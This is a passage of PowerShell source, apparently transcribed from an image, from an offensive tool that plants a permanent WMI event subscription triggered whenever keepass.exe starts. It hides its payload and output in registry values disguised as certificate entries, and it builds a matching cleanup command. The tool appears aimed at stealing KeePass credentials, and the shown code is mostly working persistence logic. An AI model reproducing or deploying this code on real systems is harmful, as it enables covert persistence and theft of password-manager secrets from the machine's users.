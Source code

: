             # Registering WMI event
            Register-PSWmiEvent -EventName $EventName -PermanentCommand $ConsumerLogic -Trigger ProcessStart -ProcessName keepass.exe | Out-Null
            Write-Verbose "Registry KeeTheifLurker '$EventName' Created"
            
            # Cleanup command construction
            $CleanupParameters = [System.Collections.ArrayList]@()
            if($PayloadValueName -ne 'DomainCertificate'){
                [void]$CleanupParameters.Add('-PayloadValueName') 
                [void]$CleanupParameters.Add($PayloadValueName)
            }
            if($OutputValueName -ne 'ComputerCertificate'){
                [void]$CleanupParameters.Add('-OutputValueName')
                [void]$CleanupParameters.Add($OutputValueName)
            }
            if($RegistryPath -ne 'HKLM:\SOFTWARE\Microsoft\SystemCertificates\'){
                [void]$CleanupParameters.Add('-RegistryPath')
                [void]$CleanupParameters.Add($RegistryPath)
            }
            Write-Verbose "Cleanup Command: "
            Write-Verbose "Remove-TemplateLurker -EventName $EventName -Registry $($CleanupParameters)"
        }
    }
    
    
}

function Remove-TemplateLurker{

<#
.SYNOPSIS

Removes formerly added TemplateLurker.

.DESCRIPTION

Remove-TemplateLurker deletes the permanent WMI event and associated filter and consumer. It also removes registry or 
WMI storage components. In order to do this, the same arguments must be pass to this cmdlet as they were when creating
the TemplateLurker.

.PARAMETER WMI

Indicates that a custom WMI class was used for data storage. 

.PARAMETER Registry

Indicates that the registry was used for data storage. 

.PARAMETER ClassName

Indicates the a non-default WMI class name was specified.

.PARAMETER ExposeNamespace
